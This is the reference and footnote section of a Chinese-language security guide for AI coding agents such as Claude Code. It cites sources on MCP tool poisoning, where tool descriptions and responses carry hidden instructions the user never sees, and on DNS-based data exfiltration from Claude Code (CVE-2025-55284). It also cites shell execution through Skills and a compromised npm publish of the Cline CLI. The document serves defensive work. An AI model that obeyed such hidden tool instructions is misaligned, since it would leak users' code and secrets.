- [MCP Security Best Practices](https://modelcontextprotocol.io/docs/tutorials/security/security_best_practices)、[OWASP：MCP Tool Poisoning](https://owasp.org/www-community/attacks/MCP_Tool_Poisoning) 与 [Invariant Labs：MCP Tool Poisoning Attacks](https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks) —— 支撑「本地 stdio MCP server 来自不可信来源的风险、工具响应与工具描述夹带隐藏指令、界面所见少于模型所见」（官方 + 社区安全研究，2026-07 整理）
- [Claude Code Skills](https://code.claude.com/docs/en/skills) —— 支撑「Skill 可带脚本、可动态执行 shell、`allowed-tools` 预授权、项目 skill 在 trust 后生效」（官方，2026-07）
- [Post-mortem: unauthorized Cline CLI npm publish](https://cline.ghost.io/post-mortem-unauthorized-cline-cli-npm/) —— 支撑事故 D 的全部事实与表述边界（厂商官方 post-mortem，事件 2026-02-17）
- 敏感文件 deny 清单、陌生仓库 AI 入口检查清单、MCP 四项审计、managed-settings 示例 —— 个人研究与实践整理（2026-07）
- [生成式人工智能服务管理暂行办法 — 中央网信办](https://www.cac.gov.cn/2023-07/13/c_1690898327029107.htm) —— 支撑数据出境话题的监管背景，第二十条涉及境外来源服务（官方，2023-07）

[^1]: [Claude Code Data usage](https://code.claude.com/docs/en/data-usage) 与 [Zero data retention](https://code.claude.com/docs/en/zero-data-retention)（官方，2026-08-15 核实）：商用条款下不用你的代码或 prompt 训练模型；消费版开训练留 5 年；ZDR 不含在标准 Enterprise 套餐里，由客户团队按组织开通，且不覆盖 Bedrock / Vertex / Foundry。
[^2]: [Claude Code: Data Exfiltration with DNS (CVE-2025-55284) — embracethered](https://embracethered.com/blog/posts/2025/claude-code-exfiltration-via-dns-requests/) 与 [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-55284)（社区安全研究 + 官方漏洞库，2026-08-15 核实）：向厂商披露 2025-05-26，修复 2025-06-06（v1.0.4），CVSS 4.0 评分 7.1，CVE 编号于 2025-08-15 公开。研究者建议的修复是把 DNS 类命令移出自动白名单，官方未公布具体修复方式。
[^3]: [GenAI Code Security Report — Veracode](https://www.veracode.com/blog/genai-code-security-report/)（行业，2025，2026-08-15 复核）：100+ 模型、80 个编码任务，45% 的 AI 生成代码引入 OWASP Top 10 类漏洞，Java 失败率 72%，新模型未见改善。
[^4]: [Claude Code Security — Claude Code Docs](https://code.claude.com/docs/en/security)（官方，2026-07）：Anthropic 不对任何 MCP server 做安全审计。
[^5]: [MCP Security Best Practices](https://modelcontextprotocol.io/docs/tutorials/security/security_best_practices)、[OWASP: MCP Tool Poisoning](https://owasp.org/www-community/attacks/MCP_Tool_Poisoning)、[Invariant Labs: MCP Tool Poisoning Attacks](https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks) 与 [Claude Code Skills](https://code.claude.com/docs/en/skills)（官方与社区安全研究，个人研究整理于 2026-07）：来自不可信来源的本地 stdio MCP server 可导致任意代码执行与数据外泄；工具响应与工具描述都能夹带隐藏指令，界面展示的信息可能少于模型看到的；Skill 可包含脚本、可在发送给模型前执行 shell 命令替换输出、可通过 `allowed-tools` 预授权工具，项目 skill 在 workspace trust 后生效。
[^6]: [Post-mortem: unauthorized Cline CLI npm publish](https://cline.ghost.io/post-mortem-unauthorized-cline-cli-npm/)（厂商官方 post-mortem，事件 2026-02-17）：`cline@2.3.0` 由受损的 npm publish token 发布，新增 `postinstall` 全局安装外部包；triage 与 release workflow 共享 Actions cache 属可行链路而非已确认的唯一路径；整改含移除 AI triage workflow、轮换凭据、迁移 npm OIDC provenance。

---

<sub>难度 高级 · 决策题 + 排错题 · 主线 Claude Code，横向 Cursor / Copilot · 技术护栏人人能自己配，部署选型与组织政策需负责人拍板</sub>

<sub>**时效**：数据政策事实（商用默认不训练、标准留存 30 天、消费版开训练留 5 年、ZDR 不含在标准 Enterprise、本地明文会话记录与 `cleanupPeriodDays`、AES-256/KMS/CMEK、Development Partner Program 在 Bedrock/Vertex 不可用、第三方平台 telemetry 默认关闭）于 2026-08-15 对照官方 data-usage 页复核；条款相关事实（ZDR 不覆盖三大云、Anthropic 赔偿只覆盖 paid use、Copilot IP 赔偿只给 Business/Enterprise）、CVE-2025-55284 时间线、IDEsaster 数字、Veracode 与 ProjectDiscovery 调研数字、Cline 与 Claudy Day 事故细节、managed-settings 示例字段名，均于 2026-08-15 对照原始出处核实。**已知不确定**：CVE-2025-55284 的具体修复方式官方未公布，「移出自动白名单」是研究者建议，未见官方确证；Cline 事件里「令牌经 Actions cache 泄露」只是 Cline 自述的可行链路，未被确认为唯一路径。**易变**：政策条款随官方更新即失效，签约或合规决策前以官方页面与商业条款为准；permissions / sandbox 配置键名以你所在版本的文档为准。</sub>

> 本篇个人实践（L4）：`[待补：BOSS 的实战经验/踩坑——部署模式实际怎么选、密钥外泄有没有踩过坑、managed settings 红线清单长啥样]`
